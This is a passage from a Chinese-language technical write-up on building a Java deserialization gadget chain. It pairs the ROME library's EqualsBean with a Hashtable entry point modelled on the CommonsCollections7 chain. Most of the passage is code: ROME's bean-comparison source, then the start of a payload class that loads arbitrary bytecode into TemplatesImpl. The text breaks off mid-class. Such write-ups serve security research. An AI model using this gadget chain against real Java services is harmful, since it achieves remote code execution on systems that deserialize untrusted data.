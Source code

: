 ```java
        }
        else
            if (bean1==null || bean2==null) {
                eq = false;
            }
            else {
                if (!_beanClass.isInstance(bean2)) {
                    eq = false;
                }
                else {
                    eq = true;
                    try {
                        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
                        if (pds!=null) {
                            for (int i = 0; eq && i<pds.length; i++) {
                                Method pReadMethod = pds[i].getReadMethod();
                                if (pReadMethod!=null && // ensure it has a getter method
                                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                                    Object value1 = pReadMethod.invoke(bean1, NO_PARAMS);
                                    Object value2 = pReadMethod.invoke(bean2, NO_PARAMS);
                                    eq = doEquals(value1, value2);
                                }
                            }
                        }
                    }
                    catch (Exception ex) {
                        throw new RuntimeException("Could not execute equals()", ex);
                    }
                }
            }
        return eq;
    }
```

如果我们有过调试和构造CC7链的经验的话，我们很容易想到我们可以使用Hashtable来作为source，触发equals方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220307105120.png)

接下来就是根据CC7和ROME链进行改造，最终得到如下的payload(扩展于[EmYiQing/ShortPayload](https://github.com/EmYiQing/ShortPayload)):
```java
package org.sec.payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;

import javax.xml.transform.Templates;
import java.util.HashMap;
import java.util.Hashtable;

public class ROME extends Payload {
    @SuppressWarnings("all")
    public static byte[] getPayloadUseByteCodes(byte[] byteCodes) {
        try {
            TemplatesImpl templates = new TemplatesImpl();
            setFieldValue(templates, "_bytecodes", new byte[][]{byteCodes});
            setFieldValue(templates, "_name", "t");

            EqualsBean bean = new EqualsBean(String.class, "s");

```